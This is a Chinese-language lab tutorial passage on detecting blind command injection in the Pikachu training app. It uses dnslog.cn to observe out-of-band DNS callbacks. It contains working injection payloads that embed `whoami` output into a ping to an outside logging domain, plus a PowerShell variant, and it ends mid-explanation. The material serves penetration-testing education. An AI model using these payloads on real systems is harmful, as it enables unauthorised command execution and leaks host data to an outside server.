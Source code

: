1. 关闭pikachu的ping回显；这一步骤是为了使用pikachu时使实验更拟真，这个操作步骤跟渗透思路没有关联

   ```cmd
   编辑 E:\phpstudy_pro\WWW\pikachu\vul\rce\rce_ping.php 配置文件，将配置文件中的echo注释掉
   //echo "<pre>{$result}</pre>";
   ```

   注释echo输出之后再对pikachu的Web网页进行测试，无论是否执行管道符、无论ping命令格式是否正确，都不在有回显提示

2. 利用第三方站点观察访问日志；此实验中使用[dnslog](http://dnslog.cn/)站点进行测试，先使用dnslog生成一个随机域名，在通过pikachu访问此域名，点击刷新记录即可看到pikachu的访问记录

   ![dnslog-1](../image/dnslog-1.png)

3. 尝试特殊命令；既然正常ping命令可以成功执行，那么是否也能参杂其他命令混在ping命令内

   ```yaml
   # 1.通过Linux系统参杂其他参数到ping命令中，通过刷新dnslog的记录，可以看到解析成功
   ping whoami.e3wrng.dnslog.cn
   
   # 2.在进一步修改，为whoami命令添加命令替换符，可以看到dnslog的解析记录由whoami.e3wrng.dnslog.cn 替换为 root.e3wrng.dnslog.cn
   ping `whoami`.e3wrng.dnslog.cn
   ```

   通过dnslog站点的解析记录可以观察到，Linux系统上通过命令替换符和ping命令可以检测出，ping命令是否被成功执行、命令替换是否成功。换成Windows系统也可以根据这个思路进行处理，即便Web站点的数据不回显，但根据命令替换符和第三方站点的解析记录，就可以判断出命令在目标站点上是否能够成功执行

   然而此前提到过，在Windows系统上不识别"``"符，因此Windows与Linux使用的方法不一致，但思路是一样的。Windows系统的CMD不支持命令替换符，但Powershell支持变量赋值，因此可以显示的声明使用Powershell的变量进行测试

   ```cmd
   powershell
   $user=whoami;
   $url='.e3wrng.dnslog.cn';
   $result=$user+$url;
   echo $result
   win-2pgp719hknc\administrator.e3wrng.dnslog.cn
   ```

   很明显，输出的$result已经非常接近想要的结果了，但这个字符串中仍存在一个"\\"反斜杠无法被ping命令识别，因此还需要将反斜杠替换为正常字符
